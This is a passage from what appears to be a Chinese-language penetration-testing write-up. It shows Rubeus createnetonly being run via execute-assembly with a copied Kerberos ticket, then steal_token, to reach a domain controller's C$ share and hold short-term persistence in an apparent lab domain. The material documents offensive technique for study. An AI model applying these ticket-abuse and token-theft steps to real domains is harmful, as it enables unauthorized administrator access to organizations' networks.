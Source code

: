 复制出票据来，执行命令创建一个新的进程

```bash
execute-assembly C:\tools\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:endlessparadox /username:administrator /password:FakePass /ticket:doIF···vbQ==
```

[![](assets/1707953845-1f86b6a793cd97184c9e65549a5531c1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040713-271f86b2-c462-1.png)

再次执行 steal\_token 拿到访问令牌，验证成功 ad 的 cifs 服务，当然机器的密码 30 天会自动更新，短期的权限维持已经足够了；

```bash
ls \\ad.endlessparadox.com\c$
```

[![](assets/1707953845-8981a6df214d1ad82d62835a9e7e45d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040727-2f4da486-c462-1.png)
